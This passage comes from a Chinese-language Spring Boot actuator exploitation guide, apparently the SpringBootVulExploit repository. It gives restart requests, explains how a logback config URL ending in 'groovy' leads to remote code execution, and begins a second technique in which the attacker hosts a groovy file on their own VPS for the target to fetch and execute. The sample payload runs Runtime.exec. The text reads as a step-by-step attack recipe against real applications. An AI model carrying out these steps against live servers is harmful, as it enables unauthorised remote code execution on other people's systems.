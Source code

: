 **步骤三：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json
```

**漏洞原理：**

1. 目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `logback-classic` 组件的 `ch.qos.logback.classic.util.ContextInitializer.java` 代码文件逻辑中会判断 url 是否以 `groovy` 结尾
4. 如果 url 以 `groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞

**漏洞环境：**

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```
http://127.0.0.1:9098/actuator/env
```

#### 0x0B：restart spring.main.sources groovy RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/restart` 接口重启应用
* ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
* ⚠️ HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
* ⚠️ 环境中需要存在 groovy 依赖，否则会导致程序异常退出

**利用方法：**

**步骤一：托管 groovy 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `groovy` 结尾的 `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```xml
Runtime.getRuntime().exec("open -a Calculator")
```
